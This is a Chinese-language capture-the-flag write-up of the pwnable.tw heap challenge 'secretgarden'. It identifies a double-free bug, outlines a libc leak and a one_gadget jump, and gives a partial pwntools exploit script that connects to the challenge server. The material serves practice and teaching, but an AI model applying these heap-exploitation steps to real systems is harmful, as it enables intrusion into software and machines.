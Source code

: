 # Secretgarden
```sh
➜  Desktop checksec secretgarden
[*] '/home/n132/Desktop/secretgarden'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled

```
秘密花园...常规的`double free`...做到堆题感觉比前面简单多了...看来我的stack方面或者漏洞挖掘方面太弱了
花的结构体
```c
struct Flower{
  int inuse;
  char * name;
  char[24] color;
}
```
主要漏洞点在:remove中
```arm
 if ( idx <= 0x63 && (v1 = array[idx]) != 0LL )
  {
    *v1 = 0;
    free(*(array[idx] + 8LL));
    result = puts("Successful");
  }
```
可以`double_free`
泄露地址因为read的时候没有截断直接free进`unsorted bin`然后malloc出来show出来就可以了

## 思路
* leak libc
* double free
* jump one_gadget
## exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("choice : ",str(c))
def add(name="XXXX",l=0x80,c="AAAA"):
	cmd(1)
	p.sendlineafter("name :",str(l))
	p.sendafter("flower :",name)
	p.sendlineafter("flower :",c)
def show():
	cmd(2)
def free(idx):
	cmd(3)
	p.sendlineafter("garden:",str(idx))
def clear():
	cmd(4)
#p=process("secretgarden",env={"LD_PRELOAD":"./libc_64.so.6"})
p=remote("chall.pwnable.tw",10203)
context.arch='amd64'
add()#0
add()#1
free(0)
clear()
add("A")
```

[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert